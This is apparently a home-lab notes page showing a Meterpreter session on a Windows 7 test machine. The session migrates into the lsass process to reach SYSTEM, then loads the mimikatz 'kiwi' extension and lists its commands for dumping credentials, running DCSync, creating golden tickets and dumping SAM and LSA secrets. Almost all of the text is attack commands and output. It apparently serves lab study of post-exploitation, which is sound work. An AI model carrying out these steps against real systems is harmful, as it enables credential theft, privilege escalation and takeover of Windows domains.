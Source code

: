 # Home Lab
环境：Windows 7 SP1

```
meterpreter > sysinfo
Computer        : IEWIN7
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: IEWIN7\IEUser
meterpreter > pgrep lsass
496
meterpreter > migrate 496
[*] Migrating from 3164 to 496...
[*] Migration completed successfully.
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

```
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
meterpreter > ?

Kiwi Commands
=============

    Command                Description
    -------                -----------
    creds_all              Retrieve all credentials (parsed)
    creds_kerberos         Retrieve Kerberos creds (parsed)
    creds_livessp          Retrieve Live SSP creds
    creds_msv              Retrieve LM/NTLM creds (parsed)
    creds_ssp              Retrieve SSP creds
    creds_tspkg            Retrieve TsPkg creds (parsed)
    creds_wdigest          Retrieve WDigest creds (parsed)
    dcsync                 Retrieve user account information via DCSync (unparsed)
    dcsync_ntlm            Retrieve user account NTLM hash, SID and RID via DCSync
    golden_ticket_create   Create a golden kerberos ticket
    kerberos_ticket_list   List all kerberos tickets (unparsed)
    kerberos_ticket_purge  Purge any in-use kerberos tickets
    kerberos_ticket_use    Use a kerberos ticket
    kiwi_cmd               Execute an arbitary mimikatz command (unparsed)
    lsa_dump_sam           Dump LSA SAM (unparsed)
    lsa_dump_secrets       Dump LSA secrets (unparsed)
    password_change        Change the password/hash of a user
    wifi_list              List wifi profiles/creds for the current user
    wifi_list_shared       List shared wifi profiles/creds (requires SYSTEM)
```
